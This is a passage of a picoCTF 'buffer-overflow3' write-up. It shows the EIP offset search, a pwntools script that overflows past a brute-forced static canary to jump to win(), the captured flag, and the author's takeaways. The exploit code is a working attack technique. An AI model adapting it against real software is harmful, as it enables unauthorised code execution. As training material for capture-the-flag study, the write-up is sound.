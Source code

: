 ```bash
gef➤  pattern offset $eip
[+] Searching for '65616161'/'61616165' with period=4
[+] Found at offset 16 (little-endian search) likely
```

Therefore, the offset to EIP is 16.

We can now craft our overall exploit. Using Python 3 and pwntools:

```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 53066) # for remote execution

# payload
payload = b'A' * 64 # read buffer offset
payload += b'BiRd' # canary value
payload += b'A' * 16 # eip offset
payload += p32(0x08049336) # win()

p.recvline()
p.sendline(str(len(payload)).encode())
p.recvuntil(b"Input> ")
p.sendline(payload)
print(p.recvall().decode())
```

```bash
[+] Opening connection to saturn.picoctf.net on port 53066: Done
[+] Receiving all data: Done (70B)
[*] Closed connection to saturn.picoctf.net port 53066
Ok... Now Where's the Flag?
picoCTF{Stat1C_c4n4r13s_4R3_b4D_fba9d49b}
```

## Learning Takeaways

This was an interesting challenge that helped me better understand how stack canaries worked. Even though the stack canary being used here wasn't an actual stack canary, it still managed to convey the idea of how a canary value could work to protect against buffer overflows, and how the canary could be broken through brute-force attacks.

I think that leaking the canary value through format strings could be achieved as well (especially since `printf()` was being used here), and certainly, it does seem like this is a legitimate strategy to bypass actual stack canaries when brute-force attacks are not feasible. I'll have to give this challenge another go when I'm free.

## References

- [John Hammond (YouTube): PWN - Bruteforcing Stack Canaries (PicoCTF 2022 #44 'buffer-overflow3')](https://www.youtube.com/watch?v=fGgafrmx1fA&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=45)

